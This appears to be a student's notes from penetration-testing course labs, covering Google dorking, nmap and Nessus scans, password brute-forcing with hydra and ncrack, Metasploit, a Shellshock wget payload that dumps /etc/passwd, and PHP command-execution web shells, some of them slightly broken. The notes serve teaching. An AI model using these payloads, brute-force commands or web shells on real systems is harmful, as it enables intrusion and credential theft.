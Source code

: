 # **Lab 1-2**
### **Google Hacking:**
Using Google to search for information about companies is a useful way to find information on possible targets to possibly social engineer or phish your way into their system. Sometimes companies may even leave text files or databases open on the internet for any potential attacker to get into. 

### **Example of Commands:** 
* `website:champlain.edu file:pdf`
* `website:champlain.edu intext:password`
* `website:champlain.edu intitle:Cybersecurity inurl:Program`

Useful Site For Extra Commands: https://ahrefs.com/blog/google-advanced-search-operators/

# **Lab 2-2**
Helpful commands: https://hackertarget.com/nmap-cheatsheet-a-quick-reference-guide/
### Nmap Commands For Host Discovery:
* `nmap 192.168.4.1 (IP Address) -F (Fast Scan)` - gets open ports helpful when ICMP is blocked
* Spacebar let you see the status of a current running scan
* `nmap -iL ipaddress.txt` - Lets you scan targets from a text file
* `nmap -sS 192.168.4.1` - TCP SYN Scan
* `nmap -A 192.168.4.1` - OS Detection Scan
* `nmap -sV -p 1-1000 192.168.4.1` - Using -sV will detect services on the network and -p is the port or port range
* `nmap -sT 192.168.4.1` - 
* `nmap -sL 192.168.4.1` - 
* `nmap -sn 192.168.4.1` -
* `nmap -p 1-1000` - 
* `nmap -PS 192.168.4.1` -

# **Lab 3-1**
The nmap -sC command lets you run a script scan using the default set of scripts.  
`nmap -sC 192.168.139.128`  
The Nmap -script “non intrusive” command uses all the non intrusive scripts and runs them against the host specified.   
`nmap -script "non intrusive" 192.168.139.128`

# **Lab 3-2**
Using 2 different VMs on host only networking
### **Nessus Scan Steps**
Start Nessus:
`sudo systemctl start nessusd`
Nessus Website Link: https://127.0.0.1:8834/

Go to Policies - New - Advanced Scan  
Name the scan   
Click on Discovery:   
Host Discovery: Uncheck "Test the local host" (so it won't scan the nessus server)  
Port Scanning and Service Discovery: Review options  
* Click on Assessment and review options - choose the default options

* Click on Plugins - Disable all of the "Local Security Checks" plugin families - only work if you are able to log into server

* Save the policy

* Go to Scans to create a new scan, and select a User Defined Policy to scan (the one created previously)

* Add your host-only network as the target (e.g. 192.168.139.0/24)

* Name the scan (recommend using target_policy)

# **Lab 4-1**
`man cewl` - info on cewl command  
`cewl -w wordlist.txt -m 9-12 192.168.4.243/bios`  
-w is the file it creates and writes to and -m is the word length

`rsmangler --file Paden --min 9 --max 12 --output Paden.txt`  
Uses the file Paden and creates a password list with a word length between 9-12 and outputs it as Paden.txt  

Uses ncrack to login to a website using the username dpaden and the different passwords stored in Paden.txt  
`ncrack -user dpaden -P Paden.txt http://192.168.4.246`

Uses hydra to login using ssh using the username duaine.dunston and the different passwords stored in Dunston.txt  
`hydra -l duane.dunston Dunston.txt 192.168.4.246 ssh`  

When using ncrack and hydra syntax matters if you don't use the correct username syntax then you won't be able to login since it only tries that username.  

# **Lab 5-1**
Start Metasploit by using `msfconsole`  

Search metasploit:  
`help search`  
`search usermap_script (module name)`  

Configure Modules:  
`use /auxillary/scanner/ftp/ftp_login (directory of module)`  
`show options` - show the different module options which can be set  
`set USERNAME msfadmin` - sets the username as msfadmin  
`exploit` - starts the module and runs the options that were set  

# **Lab 6-1**  
### **Shellshock**  
`$ var_function=‘() { echo ‘shellshock-example’;}'`  
`$ echo $var_function`  
`() { echo shellshock-example;}    Displays variable as string`  
`$ export var_function `  
`$ bash`  
`bash-3.2$ var_function`  
 Executes Arbitrary Code

`wget -U "() { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://your-ip/cgi-bin/sec335.cgi`  
Downloads a copy of /etc/passwd  
# **Lab 9-1**  
`<?php`   
`$cmd1 = $_GET['cmd1'];`  
`$cmd1 = $_GET['cmd2'];`  
`system($cmd1 .' '.$cmd2)`  
`?>`  
Executes command with separation using &  

`<?php`  
`$str = 'L2V0Yy9wYXNzd2QK'`   
`$pass = base64_decode($str);`  

`$cmd1 = $_GET['cmd'];`  
`system($cmd1 .' '.$pass)`  
`?>`  
Passes the directory /etc/passwd using base64 then decodes it and passes the command into the system function    